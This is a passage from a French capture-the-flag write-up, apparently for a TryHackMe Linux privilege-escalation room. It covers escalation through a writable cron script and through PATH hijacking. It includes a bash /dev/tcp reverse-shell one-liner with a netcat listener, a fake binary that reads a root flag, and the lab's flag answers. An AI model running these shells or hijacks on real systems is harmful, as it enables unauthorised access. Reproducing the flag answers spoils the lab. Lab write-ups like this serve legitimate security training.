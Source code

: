 | Flag   | flag4.txt   |
| ------ | ----------- |
| Answer | THM-9349843 |

## ⏱️ Phase 9 : Cron Jobs

**Objectif :** Modifier un script cron pour lancer une reverse shell.

### Sur la machine cible :

```bash
$ cat /etc/crontab                # Identifier les jobs
```

Script vulnérable : `/usr/local/bin/backup.sh`

### Sur ma machine locale :

```bash
$ echo 'bash -i >& /dev/tcp/<TARGET-IP>/4444 0>&1' > backup.sh
$ chmod +x backup.sh              # Préparer le payload
```

### Sur la machine attaquante :

```bash
$ nc -lvnp 4444                   # Lancer un listener
```

Attendre l'exécution cron pour obtenir le shell.

| Flag   | flag5.txt     |
| ------ | ------------- |
| Answer | THM-383000283 |

## 📌 Phase 10 : Hijacking de PATH

**Objectif :** Tromper un script qui appelle un binaire sans chemin absolu.

### Sur la machine cible :

```bash
$ find / -writable 2>/dev/null | grep home  # Dossiers éditables
```

Créer le faux binaire `checkupdate` :

```bash
$ echo "cat /root/flag6.txt" > /home/user/hijack/checkupdate
$ chmod +x /home/user/hijack/checkupdate
$ export PATH=/home/user/hijack:$PATH     # Redéfinir le PATH
$ ./run_update                           # Script vulnérable
```

| Flag   | flag6.txt     |
| ------ | ------------- |
| Answer | THM-736628929 |
